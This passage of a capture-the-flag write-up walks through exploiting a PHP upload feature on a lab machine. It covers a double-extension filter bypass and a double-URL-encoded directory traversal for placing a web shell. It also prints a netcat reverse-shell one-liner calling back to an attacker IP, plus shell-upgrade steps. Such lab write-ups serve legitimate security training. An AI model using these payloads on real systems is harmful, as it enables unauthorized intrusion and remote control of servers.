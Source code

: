 ![Web 80 Dashboard](web_80_dashboard.webp){: width="1200" height="600" }

Unsurprisingly, we can upload images and view them in the `/uploads` directory.

![Web 80 File Upload One](web_80_file_upload_one.webp){: width="1200" height="600" }

Since it is a **PHP** application, we can attempt to upload a **PHP web shell** to gain **Remote Code Execution (RCE)**. However, when trying that, we receive the message: `Only JPG, JPEG, PNG, and GIF files are allowed.`

![Web 80 File Upload Two](web_80_file_upload_two.webp){: width="1200" height="600" }

By using a **double extension** in our file name, we can bypass the filter and successfully upload a file with a `php` extension.

![Web 80 File Upload Three](web_80_file_upload_three.webp){: width="1200" height="600" }

However, visiting `/uploads/rev.png.php` shows that our **PHP** code does not execute.

![Web 80 File Upload Four](web_80_file_upload_four.webp){: width="1200" height="600" }

Reading the `/etc/apache2/apache2.conf`, we can see why.

```console
wilbur@Backtrack:~$ cat /etc/apache2/apache2.conf
...
<Directory /var/www/html/uploads>
        php_flag engine off
        AddType application/octet-stream php php3 php4 php5 phtml phps phar phpt
</Directory>
...
```

If we want our **web shell** to be executed, we need to escape the `/uploads` directory.

After attempting various directory traversal payloads in the file name while uploading, we succeeded with `%25%32%65%25%32%65%25%32%66` (which is `../` double URL encoded).

![Web 80 File Upload Five](web_80_file_upload_five.webp){: width="1200" height="600" }

Now, we can access our web shell at `/rev.png.php` and run commands.

![Web 80 File Upload Six](web_80_file_upload_six.webp){: width="1200" height="600" }

By running a reverse shell payload, we obtain a shell as the `orville` user and can read the second flag at `/home/orville/flag2.txt`.

```console
$ curl -s --get 'http://127.0.0.1:5555/rev.png.php' --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.72.22 443 >/tmp/f'
```
{: .wrap }

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.61.142] 60396
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
orville@Backtrack:/var/www/html$ export TERM=xterm
export TERM=xterm
orville@Backtrack:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

orville@Backtrack:/var/www/html$ id
```